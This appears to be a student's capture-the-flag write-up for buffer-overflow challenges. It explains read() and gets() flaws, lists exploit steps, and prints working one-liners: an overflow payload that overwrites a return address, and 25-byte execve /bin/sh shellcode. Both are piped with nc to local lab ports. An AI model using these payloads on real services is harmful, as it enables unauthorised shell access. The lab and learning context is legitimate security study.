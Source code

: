 
Script/Command used
--------------------
```
(python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRR' + 'AAAA' + '\xcd\x84\x04\x08'"; cat ) | nc 0.0.0.0 5002
```

buffer-3
=========

General overview of problem faced
----------------------------------
1. Had to research on what shellcode is and how to use it (attempted to write it but ended up using shellstorm).

List of vulnerabilities
------------------------
1. read() add any standard input (file descriptor) into buffer and then buffer gets executed after. We can add anything and force a shell a spawn adding in the correct shellcode.
 
Steps to exploit
----------------
1. Look at the code source file and notice it has a buffer of 512 bytes and read into from standard input by read() and then executed afterwards.
2. Notice buffer is excuted so lets add some shellcode into it and force it to open a shell for us.
3. Should of wrote my own shell code but time constraint so copied it from shellcode. Find a shellcode (I got a 25 byte shellcode) that does an execve (a shellcode calls /bin/sh).
4. cat flag file


Script/Command used
--------------------
```
(python -c "print'\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80'"; cat -) | nc 0.0.0.0 5003
```

buffer-4
=========

General overview of problem faced
----------------------------------
1. Had to research on what sheel code is and how to use it.
2. How to research on how stack will arrange itself in order calculate where to excute the stack.

List of vulnerabilities
------------------------
1. gets() is used and this will read in any amount of standard input until it reaches EOF or new line, meaning it can cause an overflow.
2. The hint when the binary is executed tells us the stack is executable meaning that we can use execve shell code in order to pop a shell.

Steps to exploit
-----------------
1. Disassemble the code to see how the stack pointer and base pointer is set out.
2. Notice that one of the prints says the shell is executable this must be a hint. So we need to overwrite the return address.
3. Note eax at esp + 10h, so we just need to to jump to this address so when the function returns, it would execute the shellcode on the stack.
4. To find eax, we can use ROPgadget and use the binary option to run the binary file and grepping eax we can find when eax is called and use the address to jump to.
5. We then execute a script that will go fill the buffer and execute the shellcode at the address we want it to to pop a shell.
6. cat the flag file
